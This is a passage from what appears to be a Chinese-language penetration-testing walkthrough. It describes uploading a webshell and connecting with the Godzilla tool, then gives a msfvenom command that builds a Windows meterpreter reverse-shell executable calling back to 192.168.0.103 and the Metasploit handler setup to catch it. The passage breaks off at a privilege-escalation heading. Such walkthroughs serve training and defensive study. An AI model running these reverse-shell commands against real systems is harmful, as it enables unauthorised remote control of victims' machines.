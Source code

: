 上传后门，用哥斯拉连接，发现连不上，再找找其它 aspx 的后门

<img src=".\图片\Snipaste_2023-05-09_10-56-55.png" alt="Snipaste_2023-05-09_10-56-55" style="zoom:80%;" />

此时，得到的是网站权限

## 提权

### 弹到msf

把权限先弹到 msf ，一般 `C:\windows\temp\` 为可写目录，也可以使用脚本搜索，比如（`F:\暗月渗透\旧\渗透测试33 项目实战渗透合集实战项目四 完整的渗透测试实例\项目四工具\wt.asp`）

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.103 lport=6688 -f exe >x.exe
```

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 6688
lport => 6688
msf6 exploit(multi/handler) > run
```

<img src=".\图片\Snipaste_2023-05-09_11-15-34.png" alt="Snipaste_2023-05-09_11-15-34"  />

### msf模块提权检测
